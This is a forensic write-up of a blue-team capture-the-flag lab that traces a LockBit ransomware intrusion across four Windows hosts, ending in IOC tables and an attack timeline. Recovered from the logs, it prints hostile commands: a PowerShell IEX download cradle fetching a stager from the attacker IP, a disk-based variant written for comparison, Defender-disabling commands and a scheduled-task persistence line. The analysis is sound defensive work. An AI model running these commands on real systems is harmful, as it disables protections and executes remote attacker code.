

# LockBit Lab

<p align="center">
  
</p>

# Table of Contents
- [Context](#context)
- [Scenario](#scenario)
- [DC01](#dc01)
- [SQLServer](#sqlserver)
  * [Memory vs Disk Based Execution](#memory-vs-disk-based-execution)
- [FileServer](#fileserver)
- [DevPC](#devpc)
- [Artifacts and IOCs](#artifacts-and-iocs)
  * [External Infrastructure](#external-infrastructure)
  * [Internal Hosts](#internal-hosts)
  * [Malicious Executables](#malicious-executables)
  * [Malicious Scripts and Tasks](#malicious-scripts-and-tasks)
  * [Ransom Artifacts](#ransom-artifacts)
  * [File Hashes](#file-hashes)
  * [Defender Detections](#defender-detections)
  * [Registry Modifications](#registry-modifications)
  * [Key Process IOCs](#key-process-iocs)
  * [Named Pipes](#named-pipes)
  * [Compromised Credentials](#compromised-credentials)
- [Attack Chain](#attack-chain)
- [Lab Insights](#lab-insights)
- [Forensic Timeline](#forensic-timeline)

# Context

Lab link: [https://cyberdefenders.org/blueteam-ctf-challenges/lockbit/](https://cyberdefenders.org/blueteam-ctf-challenges/lockbit/)

Suggested tools: KAPE, EZ Tools, Event Log Explorer, Event Viewer, CyberChef

Tactics: Execution, Persistence, Privilege Escalation, Defense Evasion, Credential Access, Lateral Movement, Impact

# Scenario

A medium-sized corporation has experienced a ransomware attack, first identified when a user reported a ransom note on their screen alongside a Windows Defender alert indicating malicious activity. Your task is to analyze logs provided from the compromised machines and identify the ransomware's entry point.


# DC01

**Q1**- Windows Defender flagged a suspicious executable. Can you identify the name of this executable?

Answer: `8fe9c39.exe`

Reason: Windows Defender on `DC01` flagged `8fe9c39.exe` as `Backdoor:Win64/CobaltStrike.NP!dha` (Threat ID: `2147798396`), a CobaltStrike beacon variant dropped remotely onto the `ADMIN$` administrative share over Server Message Block (SMB). This delivery method is characteristic of PsExec-style lateral movement, where an attacker copies a payload to `ADMIN$` (which maps to `C:\Windows\`) and executes it via the Service Control Manager (SCM). Real-Time Protection triggered under `NT AUTHORITY\SYSTEM`, consistent with SCM-spawned services. Attribution to `C:\Windows\Sysmon64.exe` indicates Sysmon logged the file creation event, which triggered Defender's scan.

```
Time       : 12/14/2023 3:08:13 PM
Log Source : DC01 > Microsoft-Windows-Windows Defender/Operational
Detection  : Backdoor:Win64/CobaltStrike.NP!dha (Threat ID: 2147798396)
Path       : file:_\\DC01\ADMIN$\8fe9c39.exe
Origin     : Network share
User       : NT AUTHORITY\SYSTEM
Process    : C:\Windows\Sysmon64.exe
Type :		Warning
Date :		12/14/2023
```

**Q2**- What's the path that was added to the exclusions of Windows Defender?

Answer: `C:\`

Reason: On `12/14/2023` at `3:07:03 PM`, approximately 12 hours before ransomware detonation, Windows Defender on `DC01` was configured to exclude the entire `C:\` drive from real-time scanning. Captured as Event ID `5007` in the `Microsoft-Windows-Windows Defender/Operational` log, the registry write shows no prior value, confirming this was a new addition rather than a modification of an existing exclusion. This defense evasion technique effectively blinded Defender across the full filesystem, allowing the ransomware payload to stage and execute without triggering real-time protection.

```
Log Source : DC01 > Microsoft-Windows-Windows Defender/Operational
Event ID   : 5007
Timestamp  : 12/14/2023 3:07:03 PM
Computer   : DC01.NEXTECH.local
User       : \SYSTEM
Registry   : HKLM\SOFTWARE\Microsoft\Windows Defender\Exclusions\Paths\C:\ = 0x0
Old Value  : (none)
New Value  : C:\ exclusion added

MITRE ATT&CK:
  T1562.001 - Impair Defenses: Disable or Modify Tools
  T1112     - Modify Registry
```

**Q3**- What’s the IP of the machine that initiated the remote installation of the malicious service?

Answer: `192.168.170.142`

Reason: With `DC01`'s Security and System event logs cleared by the attacker, the source host was recovered by pivoting to Sysmon. `DC01`'s own address (`192[.]168[.]170[.]124`) was confirmed from the registry at `HKLM\SYSTEM\ControlSet001\Services\Tcpip\Parameters\Interfaces`, then used as a destination filter against Sysmon Event ID `3` (Network Connection). The matching event at `2023-12-14 15:07:02.543` revealed an inbound TCP connection on port `5985` (Windows Remote Management, WinRM) originating from `192[.]168[.]170[.]142`, placing that machine as the source of the remote service installation on `DC01` approximately one second before the Defender exclusion was written.

```
Log Source     : DC01 > Microsoft-Windows-Sysmon/Operational
Event ID       : 3 (Network Connection)
Timestamp      : 2023-12-14 15:07:02.543
Protocol       : TCP
Source IP      : 192[.]168[.]170[.]142
Destination IP : 192[.]168[.]170[.]124 (DC01)
Dest Port      : 5985 (WinRM)
User           : NT AUTHORITY\SYSTEM
Registry Ref   : HKLM\SYSTEM\ControlSet001\Services\Tcpip\Parameters\Interfaces
```


# SQLServer

**Q4**- What’s the name of the process that had suspicious behavior as detected by Windows Defender?

Answer: `cmd.exe`

Reason: Windows Defender on `sqlserver.NEXTECH.local` flagged `C:\Windows\System32\cmd.exe` (PID: `3120`) at `2023-12-14 2:45:23 PM`, 22 minutes before the Defender exclusion and WinRM lateral movement events on `DC01`. The detection `Behavior:Win32/PFATamper.A` (Threat ID: `2147849381`) indicates `cmd.exe` was actively tampering with process, file, or activity monitoring, consistent with an attacker using the Windows command shell to suppress defenses prior to moving laterally. This places `SQLServer` as the earlier point of compromise and the origin of the `192[.]168[.]170[.]142` inbound connection observed on `DC01` in the preceding finding.

The `SQLServer` IP address is also confirmed as `192[.]168[.]170[.]142`, which is the source of the malicious connection identified in the previous questions.

```
Log Source : SQLServer > Microsoft-Windows-Windows Defender/Operational
Event ID   : 1116
Timestamp  : 2023-12-14 2:45:23 PM
Computer   : sqlserver.NEXTECH.local
Detection  : Behavior:Win32/PFATamper.A (Threat ID: 2147849381)
Severity   : Severe
Process    : C:\Windows\System32\cmd.exe (PID: 3120)
Timeline   : 22 min before DC01 lateral movement (3:07 PM)

MITRE ATT&CK:
  T1059.003 - Command and Scripting Interpreter: Windows Command Shell
  T1562.001 - Impair Defenses: Disable or Modify Tools
  T1036     - Masquerading (behavioral tampering via legitimate binary)
```

**Q5**- What’s the parent process name of the detected suspicious process?

Answer: `sqlservr.exe`

Reason: At `2023-12-14 14:45:11.124`, two seconds before Defender's behavioral detection, Sysmon captured `sqlservr.exe` (PID: `3608`) spawning `cmd.exe` (PID: `3120`) under the `NEXTECH\SQLService` account. The command `cmd.exe /c powershell "Set-MpPreference -DisableRealtimeMonitoring 1"` confirms the attacker disabled Defender's real-time protection via PowerShell through the SQL Server engine, a potential hallmark of `xp_cmdshell` abuse where database-level access is leveraged to execute operating system commands through the SQL Server service account.

```
Log Source     : SQLServer > Microsoft-Windows-Sysmon/Operational
Event ID       : 1 (Process Create)
Timestamp      : 2023-12-14 14:45:11.124
Parent Process : C:\Program Files\Microsoft SQL Server\MSSQL15.MSSQLSERVER\MSSQL\Binn\sqlservr.exe (PID: 3608)
Child Process  : C:\Windows\System32\cmd.exe (PID: 3120)
Command Line   : cmd.exe /c powershell "Set-MpPreference -DisableRealtimeMonitoring 1"
User           : NEXTECH\SQLService
SHA256         : BC866CFCDDA37E24DC2634DC282C7A0E6F55209DA17A8FA105B07414C0E7C527

MITRE ATT&CK:
  T1059.003 - Command and Scripting Interpreter: Windows Command Shell
  T1562.001 - Impair Defenses: Disable or Modify Tools
  T1505.001 - Server Software Component: SQL Stored Procedures (xp_cmdshell)
```

**Q6**- Initial access often involves compromised credentials. What is the SQL Server account username that was compromised?

Answer: `sa`

Reason: The SQL Server `ERRORLOG` on `SQLServer` reveals the full initial access chain. At `06:43:08` on `12/14/2023`, an automated brute force from external IP `5[.]188[.]91[.]243` fired multiple failed login attempts against the `sa` account within the same second (Error `18456`, State `8`, password mismatch), confirming rapid credential stuffing against an internet-exposed SQL Server instance on port `1433`. The attack succeeded at `06:43:37`, and within 31 seconds the attacker enabled `show advanced options` followed by `xp_cmdshell`, establishing OS-level command execution through the SQL Server engine under the `sa` account.

```
Log Source  : SQLServer > MSSQL15.MSSQLSERVER\MSSQL\Log\ERRORLOG
Account     : sa (SQL Server authentication)
Attacker IP : 5[.]188[.]91[.]243 (internet-facing)
Brute Force : 2023-12-14 06:43:08 (Error 18456, State 8)
Success     : 2023-12-14 06:43:37
Seq         : show advanced options (06:43:52) -> xp_cmdshell = 1 (06:44:08)
Exposure    : TCP/1433 accessible from public internet

MITRE ATT&CK:
  T1190     - Exploit Public-Facing Application
  T1110.001 - Brute Force: Password Guessing
  T1505.001 - Server Software Component: SQL Stored Procedures (xp_cmdshell)
  T1078.003 - Valid Accounts: Local Accounts (sa abuse)
  
SQL Server ERRORLOG at C:\Users\Administrator\Desktop\Start here\Artifacts\SQLServer\MSSQL15.MSSQLSERVER\MSSQL\Log:
...
2023-12-14 06:43:08.77 Logon       Error: 18456, Severity: 14, State: 8.
2023-12-14 06:43:08.77 Logon       Login failed for user 'sa'. Reason: Password did not match that for the login provided. [CLIENT: 5.188.91.243]
2023-12-14 06:43:08.77 Logon       Error: 18456, Severity: 14, State: 8.
2023-12-14 06:43:08.77 Logon       Login failed for user 'sa'. Reason: Password did not match that for the login provided. [CLIENT: 5.188.91.243]
2023-12-14 06:43:08.77 Logon       Error: 18456, Severity: 14, State: 8.
2023-12-14 06:43:08.77 Logon       Login failed for user 'sa'. Reason: Password did not match that for the login provided. [CLIENT: 5.188.91.243]
2023-12-14 06:43:08.77 Logon       Error: 18456, Severity: 14, State: 8.
2023-12-14 06:43:08.77 Logon       Login failed for user 'sa'. Reason: Password did not match that for the login provided. [CLIENT: 5.188.91.243]
2023-12-14 06:43:37.42 Logon       Login succeeded for user 'sa'. Connection made using SQL Server authentication. [CLIENT: 5.188.91.243]
2023-12-14 06:43:52.13 spid51      Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
2023-12-14 06:44:08.85 spid51      Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
...
```

**Q7**- Following the compromise, a critical server configuration was modified. What feature was enabled by the attacker?

Answer: `xp_cmdshell`

Reason: Following the successful `sa` login at `06:43:37`, the attacker completed a two-step sequence to enable operating system command execution through SQL Server. At `06:43:52`, `show advanced options` was toggled from `0` to `1` (a required prerequisite), and 16 seconds later at `06:44:08`, `xp_cmdshell` was set from `0` to `1` under session `spid51`, the same session authenticated as `sa` from `5[.]188[.]91[.]243`. This configuration change directly preceded the `sqlservr.exe` spawning `cmd.exe` observed in the Sysmon process creation event.

```
Log Source : SQLServer > MSSQL15.MSSQLSERVER\MSSQL\Log\ERRORLOG
Session    : spid51 (sa @ 5[.]188[.]91[.]243)

06:43:52 - show advanced options : 0 -> 1
06:44:08 - xp_cmdshell           : 0 -> 1

MITRE ATT&CK:
  T1505.001 - Server Software Component: SQL Stored Procedures (xp_cmdshell)
  T1078.003 - Valid Accounts: Local Accounts (sa abuse)
```

**Q8**- What’s the command executed by the attacker to disable Windows Defender on the server?

Answer: `Set-MpPreference -DisableRealtimeMonitoring 1`

Reason: At `2023-12-14 14:45:13.177`, Sysmon captured `powershell.exe` (PID: `4560`) spawned by `cmd.exe` (PID: `3120`) executing `Set-MpPreference -DisableRealtimeMonitoring 1` under `NEXTECH\SQLService`, completing the full `xp_cmdshell` execution chain from the SQL Server engine to OS-level defense evasion. This event, two seconds after the `cmd.exe` process creation in Q5, confirms the attacker used the database service account to disable Defender's real-time protection before pivoting laterally to `DC01`.

```
Log Source     : SQLServer > Microsoft-Windows-Sysmon/Operational
Event ID       : 1 (Process Create)
Timestamp      : 2023-12-14 14:45:13.177
Process Chain  : sqlservr.exe (3608) -> cmd.exe (3120) -> powershell.exe (4560)
Command        : powershell "Set-MpPreference -DisableRealtimeMonitoring 1"
User           : NEXTECH\SQLService
SHA256         : DE96A6E69944335375DC1AC238336066889D9FFC7D73628EF4FE1B1B160AB32C

MITRE ATT&CK:
  T1059.001 - Command and Scripting Interpreter: PowerShell
  T1562.001 - Impair Defenses: Disable or Modify Tools
  T1505.001 - Server Software Component: SQL Stored Procedures (xp_cmdshell)
```

**Q9**- What's the name of the malicious script that the attacker executed upon disabling AV?

Answer: `fJSYAso.ps1`

Reason: Twelve seconds after disabling Defender, a second `xp_cmdshell`-spawned `cmd.exe` (PID: `4724`) at `2023-12-14 14:45:25.952` executed a PowerShell download cradle fetching `fJSYAso.ps1` directly from `hxxp://5[.]188[.]91[.]243/fJSYAso.ps1` and invoking it in memory via `IEX`, never writing the payload to disk. The script was hosted on the same external IP responsible for the `sa` brute force, confirming `5[.]188[.]91[.]243` as the attacker's command and control (C2) staging server and linking initial access to post-exploitation payload delivery in a single infrastructure.

```
Log Source  : SQLServer > Microsoft-Windows-Sysmon/Operational
Event ID    : 1 (Process Create)
Timestamp   : 2023-12-14 14:45:25.952
Parent      : sqlservr.exe (PID: 3608)
Process     : C:\Windows\System32\cmd.exe (PID: 4724)
Command     : cmd.exe /c powershell "IEX (New-Object Net.WebClient).DownloadString('hxxp://5[.]188[.]91[.]243/fJSYAso.ps1')"
User        : NEXTECH\SQLService
Execution   : Fileless, in-memory only

MITRE ATT&CK:
  T1059.001 - Command and Scripting Interpreter: PowerShell
  T1059.003 - Command and Scripting Interpreter: Windows Command Shell
  T1105     - Ingress Tool Transfer
  T1027.011 - Obfuscated Files or Information: Fileless Storage
```

## Memory vs Disk Based Execution

In disk-based execution, a payload is written as a file to the filesystem before being run, making it visible to file-based antivirus scanning, forensic imaging, and file integrity monitoring. Memory-only execution, as demonstrated by the `IEX (New-Object Net.WebClient).DownloadString(...)` cradle in the preceding finding, fetches and executes a script entirely within the PowerShell process's runtime memory. No file touches disk, so there is no file hash to scan, no path to alert on, and no artifact to recover post-incident unless a memory dump is captured at the time of execution. This technique is a staple of post-exploitation frameworks precisely because it sidesteps the majority of endpoint detection that operates on filesystem events rather than in-memory behavior.

```powershell
# Disk-based execution (written to disk, scannable)
Invoke-WebRequest -Uri "http://5[.]188[.]91[.]243/payload.ps1" -OutFile "C:\Windows\Temp\payload.ps1"
.\payload.ps1

# Memory-only execution (never touches disk, no file artifact)
IEX (New-Object Net.WebClient).DownloadString("http://5[.]188[.]91[.]243/fJSYAso.ps1")
```

**Q10**- What's the PID of the injected process by the attacker?

Answer: `596`

Reason: Two minutes after `fJSYAso.ps1` loaded into memory, `powershell.exe` (PID: `3096`) injected a CobaltStrike beacon into `winlogon.exe` (PID: `596`) at `2023-12-14 14:47:13.094`. Sysmon Event ID `10` captured PowerShell opening a handle to `winlogon.exe` with access mask `0x143a`, combining the exact rights needed to write and execute shellcode in a remote process. Event ID `8` captured the injection moment, with a new thread created at address `0x000001BF27290000` inside `winlogon.exe`. The target was well chosen: `winlogon.exe` runs as `NT AUTHORITY\SYSTEM` and is a critical always-running Windows process, giving the beacon silent privilege escalation from `NEXTECH\SQLService` to `SYSTEM` while hiding inside a process that cannot be terminated without crashing the system.

```
Log Source      : SQLServer > Microsoft-Windows-Sysmon/Operational
Timestamp       : 2023-12-14 14:47:13.094

Event ID 10 (Process Access):
  Source : powershell.exe (PID: 3096) — NEXTECH\SQLService
  Target : winlogon.exe   (PID: 596)  — NT AUTHORITY\SYSTEM
  Mask   : 0x143a (VM_READ | VM_WRITE | VM_OPERATION | CREATE_THREAD)

Event ID 8 (Create Remote Thread):
  Source  : powershell.exe (PID: 3096)
  Target  : winlogon.exe   (PID: 596)
  Address : 0x000001BF27290000

Escalation : NEXTECH\SQLService -> NT AUTHORITY\SYSTEM

MITRE ATT&CK:
  T1055     - Process Injection
  T1055.001 - Process Injection: Dynamic-link Library Injection
  T1134     - Access Token Manipulation (implicit via SYSTEM thread)
```


**Q11**- Attackers often maintain access by the creation of scheduled tasks. What’s the name of the scheduled task created by the attacker?

Answer: `UpdateCheck`

Reason: Six minutes after the `winlogon.exe` injection, the attacker leveraged their `SYSTEM` foothold to establish persistence via a scheduled task. `cmd.exe` (PID: `4708`) was spawned directly from the injected `winlogon.exe` (PID: `596`), linking this action to the Q10 injection chain. The task named `UpdateCheck` was registered to execute `powershell -File 'C:\Users\SQLService\Documents\UpdateCheck.ps1'` at every logon under `NT AUTHORITY\SYSTEM`, using a name designed to blend in with legitimate Windows maintenance tasks.

```
Log Source  : SQLServer > Microsoft-Windows-Sysmon/Operational
Event ID    : 1 (Process Create)
Timestamp   : 2023-12-14 14:53:13.311
Parent      : C:\Windows\System32\winlogon.exe (PID: 596) — injected
Process     : C:\Windows\System32\cmd.exe (PID: 4708)
Command     : schtasks /create /tn "UpdateCheck"
              /tr "powershell -File 'C:\Users\SQLService\Documents\UpdateCheck.ps1'"
              /sc onlogon /ru System
Task        : UpdateCheck
Script      : C:\Users\SQLService\Documents\UpdateCheck.ps1
Trigger     : On logon
Run As      : NT AUTHORITY\SYSTEM

MITRE ATT&CK:
  T1053.005 - Scheduled Task/Job: Scheduled Task
  T1036.004 - Masquerading: Masquerade Task or Service
```

**Q12**- What’s the PID of the malicious process that dumped credentials?

Answer: `5456`

Reason: At `2023-12-14 15:00:42.228`, `rundll32.exe` (PID: `5456`) opened a handle to `lsass.exe` (PID: `644`) with access mask `0x1010`, combining the exact rights needed to read credential material from memory. The definitive indicator of malice is the call stack entry `UNKNOWN(0000022D7294E3C4)`, code executing from an unmapped memory region with no associated module, the forensic fingerprint of CobaltStrike injecting a shellcode-based credential dumper into a sacrificial `rundll32.exe` Living Off the Land Binary (LOLBin) to avoid dropping an obvious tool like Mimikatz to disk. Two other processes accessed `lsass.exe` around the same period: `Sysmon64.exe` (expected monitoring behavior) and a suspicious `vmware.exe` located in `C:\Windows\Temp\` .

```
Log Source      : SQLServer > Microsoft-Windows-Sysmon/Operational
Event ID        : 10 (Process Access)
Timestamp       : 2023-12-14 15:00:42.228
Source Process  : C:\Windows\system32\rundll32.exe (PID: 5456)
Target Process  : C:\Windows\system32\lsass.exe   (PID: 644)
Access Mask     : 0x1010 (PROCESS_VM_READ | PROCESS_QUERY_LIMITED_INFORMATION)
Call Stack IOC  : UNKNOWN(0000022D7294E3C4) — unmapped memory region, no module

Notable lsass accessors this period:
  Sysmon64.exe          — expected
  C:\Windows\Temp\vmware.exe — suspicious, investigate separately

MITRE ATT&CK:
  T1003.001 - OS Credential Dumping: LSASS Memory
  T1218.011 - System Binary Proxy Execution: Rundll32 (LOLBin abuse)
  T1055     - Process Injection (shellcode into rundll32.exe)
```

**Q13**- What's the command used by the attacker to disable Windows Defender remotely on FileServer?

Answer: `Invoke - Command  - ComputerName FileServer  - ScriptBlock { reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v DisableAntiSpyware /t REG_DWORD /d 1 /f }`

Reason: At `2023-12-14 15:04:24.168`, the persistent beacon inside `winlogon.exe` (PID: `596`) spawned `powershell.exe` (PID: `3820`) with `-nop -exec bypass -EncodedCommand` flags to conceal its payload. Decoding the Base64 blob via CyberChef (From Base64, then UTF-16LE decode, then beautify) revealed an `Invoke-Command` call targeting `FileServer` over WinRM, remotely writing `DisableAntiSpyware = 1` to `HKLM\SOFTWARE\Policies\Microsoft\Windows Defender` via `reg add`. Unlike the runtime `Set-MpPreference` toggle used on `SQLServer` in Q8, this is a policy-level registry write that survives reboots and service restarts, representing a more durable defense evasion technique applied laterally to a third host.

```
Log Source  : SQLServer > Microsoft-Windows-Sysmon/Operational
Event ID    : 1 (Process Create)
Timestamp   : 2023-12-14 15:04:24.168
Parent      : winlogon.exe (PID: 596) — injected beacon
Process     : powershell.exe (PID: 3820)
Flags       : -nop -exec bypass -EncodedCommand

Decode      : CyberChef — From Base64 > Decode Text UTF-16LE (1200) > Generic Code Beautify
Decoded     : Invoke-Command -ComputerName FileServer -ScriptBlock {
                reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender"
                /v DisableAntiSpyware /t REG_DWORD /d 1 /f
              }

Target      : FileServer (via WinRM)
Registry    : HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\DisableAntiSpyware = 1
Persistence : Policy-level, survives reboots and service restarts

MITRE ATT&CK:
  T1059.001 - Command and Scripting Interpreter: PowerShell
  T1027.010 - Obfuscated Files or Information: Command Obfuscation (Base64)
  T1562.001 - Impair Defenses: Disable or Modify Tools
  T1021.006 - Remote Services: Windows Remote Management
  T1112     - Modify Registry
```

```powershell
Invoke - Command  - ComputerName FileServer  - ScriptBlock {
    reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v DisableAntiSpyware /t REG_DWORD /d 1 /f 
}
```


# FileServer

**Q14**- What's the name of the malicious service executable blocked by Windows Defender?

Answer: `ceabe99.exe`

Reason: Windows Defender on `fileserver.NEXTECH.local` blocked `ceabe99.exe` at `2023-12-14 15:02:48` before Real-Time Protection was disabled, detecting it as `Backdoor:Win64/CobaltStrike.NP!dha` (Threat ID: `2147798396`), the same CobaltStrike beacon signature seen on `DC01` in Q1. The failed drop directly explains the attacker's next move: two minutes later at `15:04` (Q13), the beacon on `SQLServer` issued a remote policy-level Defender disable to `FileServer` via WinRM. The per-target filename pattern (`8fe9c39.exe` on `DC01`, `ceabe99.exe` on `FileServer`) is consistent with CobaltStrike's stager generation, which randomizes filenames per deployment to defeat hash-based detection.

```
Log Source  : FileServer > Microsoft-Windows-Windows Defender/Operational
Event ID    : 1116
Timestamp   : 2023-12-14 15:02:48
Computer    : fileserver.NEXTECH.local
Detection   : Backdoor:Win64/CobaltStrike.NP!dha (Threat ID: 2147798396)
Path        : C:\Windows\ceabe99.exe
Origin      : Local machine
User        : NT AUTHORITY\SYSTEM
Result      : Blocked (Real-Time Protection still active)

Timeline:
  15:02:48 — Defender blocks ceabe99.exe on FileServer
  15:04:24 — Attacker disables Defender remotely from SQLServer (Q13)

Comparison:
  DC01\ADMIN$\8fe9c39.exe  — same signature, network share drop (Q1)
  FileServer\C:\Windows\ceabe99.exe — same signature, local drop

MITRE ATT&CK:
  T1587.001 - Develop Capabilities: Malware (CobaltStrike beacon)
  T1562.001 - Impair Defenses: Disable or Modify Tools
  T1036.005 - Masquerading: Match Legitimate Name or Location
```

# DevPC

**Q15**- What’s the name of the ransomware executable dropped on the machine?

Answer: `vmware.exe`

Reason: At `2023-12-14 15:21:55.676`, a 32-bit `rundll32.exe` (PID: `3156`) operating as a CobaltStrike implant dropped `vmware.exe` into `C:\Windows\Temp\` on `DevPC` under `NT AUTHORITY\SYSTEM`. The filename masquerades as a legitimate VMware binary to blend in with expected software on enterprise endpoints. Critically, the same `vmware.exe` filename was observed accessing `lsass.exe` on `SQLServer` in Q12, indicating this is a shared payload used across multiple hosts for both credential dumping and ransomware staging, dropped via the same 32-bit CobaltStrike implant pattern consistent with the wow64 call stack noted in Q12.

```
Log Source  : DevPC > Microsoft-Windows-Sysmon/Operational
Event ID    : 11 (File Created)
Timestamp   : 2023-12-14 15:21:55.676
Process     : C:\Windows\SysWOW64\rundll32.exe (PID: 3156) — 32-bit CobaltStrike implant
File Drop   : C:\Windows\Temp\vmware.exe
User        : NT AUTHORITY\SYSTEM
Stage       : File drop only, execution is a separate subsequent event

Cross-machine correlation:
  SQLServer — vmware.exe accessed lsass.exe (Q12, credential dumping)
  DevPC     — vmware.exe dropped to C:\Windows\Temp\ (this event, staging)

MITRE ATT&CK:
  T1036.005 - Masquerading: Match Legitimate Name or Location
  T1105     - Ingress Tool Transfer
  T1218.011 - System Binary Proxy Execution: Rundll32 (LOLBin, 32-bit implant)
```

**Q16**- What’s the full path of the first file dropped by the ransomware?

Answer: `C:\Users\dmiller\Downloads\HHuYRxB06.README.txt`

Reason: Sixty-two seconds after `vmware.exe` was staged to disk, it executed and dropped its first ransom note, `HHuYRxB06.README.txt`, into `C:\Users\dmiller\Downloads\` at `2023-12-14 15:22:57.550` under `NT AUTHORITY\SYSTEM`. The extension `HHuYRxB06` matches the LockBit Black encrypted file extension and ransom note filename visible in the initial incident screenshot, closing the loop from the first observed symptom back to this precise execution moment. LockBit Black drops the ransom note into each directory at the onset of encryption, making this file creation event the forensic marker of encryption beginning on `dmiller`'s machine.

```
Log Source  : DevPC > Microsoft-Windows-Sysmon/Operational
Event ID    : 11 (File Created)
Timestamp   : 2023-12-14 15:22:57.550
Process     : C:\Windows\Temp\vmware.exe (PID: 4224) — ransomware executing
File        : C:\Users\dmiller\Downloads\HHuYRxB06.README.txt
User        : NT AUTHORITY\SYSTEM
Elapsed     : 62 seconds after file drop (Q15, 15:21:55)

Timeline anchor:
  15:21:55 — vmware.exe dropped to disk (Q15)
  15:22:57 — vmware.exe executes, first ransom note written
  HHuYRxB06.README.txt matches initial incident screenshot — encryption begins

MITRE ATT&CK:
  T1486     - Data Encrypted for Impact (LockBit Black)
  T1036.005 - Masquerading: Match Legitimate Name or Location
  T1106     - Native API (SYSTEM-level file writes via ransomware process)
```

# Artifacts and IOCs

## External Infrastructure

| Type | Value | Role |
| --- | --- | --- |
| IP Address | 5.188.91.243 | Attacker C2 — brute force source + payload host |
| URL | [http://5.188.91.243/fJSYAso.ps1](http://5.188.91.243/fJSYAso.ps1) | PowerShell stager download URL |

## Internal Hosts

| Hostname | IP | Role in Attack |
| --- | --- | --- |
| SQLServer | 192.168.170.142 | Initial access point, lateral movement origin |
| DC01 | 192.168.170.124 | Lateral movement target via WinRM |
| FileServer | — | Lateral movement target, beacon blocked |
| DevPC | — | Ransomware detonation host (user: `dmiller`) |

## Malicious Executables

| Filename | Path | Machine | Description |
| --- | --- | --- | --- |
| 8fe9c39.exe | \\DC01\ADMIN$\8fe9c39.exe | DC01 | CobaltStrike beacon (network share) |
| ceabe99.exe | C:\Windows\ceabe99.exe | FileServer | CobaltStrike beacon (blocked by AV) |
| vmware.exe | C:\Windows\Temp\vmware.exe | SQLServer, DevPC | LockBit ransomware + `lsass` dumper (masquerading as VMware) |

## Malicious Scripts and Tasks

| Name | Path | Description |
| --- | --- | --- |
| fJSYAso.ps1 | [http://5.188.91.243/fJSYAso.ps1](http://5.188.91.243/fJSYAso.ps1) | In-memory CobaltStrike stager (IEX cradle) |
| UpdateCheck.ps1 | C:\Users\SQLService\Documents\UpdateCheck.ps1 | Persistence script |
| `UpdateCheck` | Scheduled Task — /sc onlogon /ru System | Persistence mechanism on SQLServer |

## Ransom Artifacts

| Filename | Path | Description |
| --- | --- | --- |
| HHuYRxB06.README.txt | C:\Users\dmiller\Downloads\HHuYRxB06.README.txt | First ransom note dropped |

## File Hashes

| File | SHA256 |
| --- | --- |
| cmd.exe (weaponized) | BC866CFCDDA37E24DC2634DC282C7A0E6F55209DA17A8FA105B07414C0E7C527 |
| powershell.exe (stager) | DE96A6E69944335375DC1AC238336066889D9FFC7D73628EF4FE1B1B160AB32C |

## Defender Detections

| Signature | Threat ID | Machine(s) |
| --- | --- | --- |
| Backdoor:Win64/CobaltStrike.NP!dha | 2147798396 | DC01, FileServer |
| Behavior:Win32/PFATamper.A | 2147849381 | SQLServer |

## Registry Modifications

| Key | Value | Machine |
| --- | --- | --- |
| HKLM\SOFTWARE\Microsoft\Windows Defender\Exclusions\Paths\C:\ | 0x0 | DC01 |
| HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\DisableAntiSpyware | 1 (REG_DWORD) | FileServer |

## Key Process IOCs

| Process | PID | Machine | Significance |
| --- | --- | --- | --- |
| sqlservr.exe | 3608 | SQLServer | xp_cmdshell parent — initial OS execution |
| winlogon.exe | 596 | SQLServer | Injected beacon — persistent SYSTEM shell |
| rundll32.exe | 5456 | SQLServer | CobaltStrike lsass credential dumper |
| vmware.exe | 4224 | DevPC | Ransomware execution |

## Named Pipes

| Value | Description |
| --- | --- |
| \postex_8319 | CobaltStrike post-exploitation pipe |

## Compromised Credentials

| Account | Type | Method |
| --- | --- | --- |
| sa | SQL Server AUTH | Brute force from 5.188.91.243 |

# Attack Chain

| Time (UTC) | Stage | Machine | Detail | MITRE |
| --- | --- | --- | --- | --- |
| 2023-12-14 06:43:08 | Initial Access | SQLServer | Automated brute force of SQL Server `sa` account from `5.188.91.243` — multiple Error 18456 failures within milliseconds | T1110.001 |
| 2023-12-14 06:43:37 | Initial Access | SQLServer | `sa` login succeeded from `5.188.91.243` via SQL Server authentication | T1078.003 |
| 2023-12-14 06:43:52 | Execution | SQLServer | `show advanced options` enabled via `spid51` (`sa` session) — prerequisite for `xp_cmdshell` | T1505.001 |
| 2023-12-14 06:44:08 | Execution | SQLServer | `xp_cmdshell` enabled — SQL Server engine granted OS command execution capability | T1505.001 |
| 2023-12-14 14:45:11 | Defense Evasion | SQLServer | `sqlservr.exe` spawned `cmd.exe` via `xp_cmdshell` → `powershell "Set-MpPreference -DisableRealtimeMonitoring 1"` | T1562.001 |
| 2023-12-14 14:45:25 | Execution | SQLServer | `sqlservr.exe` spawned `cmd.exe` → `IEX (New-Object Net.WebClient).DownloadString('<http://5.188.91.243/fJSYAso.ps1>')` — fileless stager loaded in memory | T1059.001, T1105 |
